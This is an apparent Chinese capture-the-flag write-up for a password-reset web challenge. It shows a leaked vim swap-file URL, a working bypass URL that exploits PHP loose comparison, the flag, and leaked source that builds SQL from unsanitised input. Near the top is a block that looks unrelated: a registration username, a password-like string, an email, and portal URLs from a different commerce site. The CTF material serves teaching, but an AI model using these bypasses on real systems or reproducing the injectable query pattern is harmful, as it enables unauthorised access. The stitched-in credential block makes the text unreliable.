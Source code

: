 PS:用sqlmap等工具做的就不要厚脸皮提交了

注册信息：username,Bai12345678
123456@qq.com
http://backstagecommerce.ca/marketing-portal/register/?message=pending&uid=112
http://backstagecommerce.ca/marketing-portal/login/?err=awaiting_admin_review
http://backstagecommerce.ca/marketing-portal/password-reset/

34. 密码重置2
密码重置2
500

题题被秒，当时我就不乐意了！
本题来源于CUMT
题目链接

TIPS:
1.管理员邮箱观察一下就可以找到
2.linux下一般使用vi编辑器，并且异常退出会留下备份文件
3.弱类型bypass

	admin@nuptzj.cn
	http://nctf.nuptzj.cn/web14/.submit.php.swp
	http://nctf.nuptzj.cn/web14/submit.php?emailAddress=admin%40nuptzj.cn&token=0000000000
	nctf{thanks_to_cumt_bxs}
	........这一行是省略的代码........
	
	/*
	如果登录邮箱地址不是管理员则 die()
	数据库结构
	
	--
	-- 表的结构 `user`
	--
	
	CREATE TABLE IF NOT EXISTS `user` (
	  `id` int(11) NOT NULL AUTO_INCREMENT,
	  `username` varchar(255) NOT NULL,
	  `email` varchar(255) NOT NULL,
	  `token` int(255) NOT NULL DEFAULT '0',
	  PRIMARY KEY (`id`)
	) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;
	
	--
	-- 转存表中的数据 `user`
	--
	
	INSERT INTO `user` (`id`, `username`, `email`, `token`) VALUES
	(1, '****不可见***', '***不可见***', 0);
	*/
	
	
	........这一行是省略的代码........
	
	if(!empty($token)&&!empty($emailAddress)){
		if(strlen($token)!=10) die('fail');
		if($token!='0') die('fail');
		$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
		$r = mysql_query($sql) or die('db error');
		$r = mysql_fetch_assoc($r);
		$r = $r['num'];
		if($r>0){
			echo $flag;
		}else{
			echo "失败了呀";
		}
	}
		
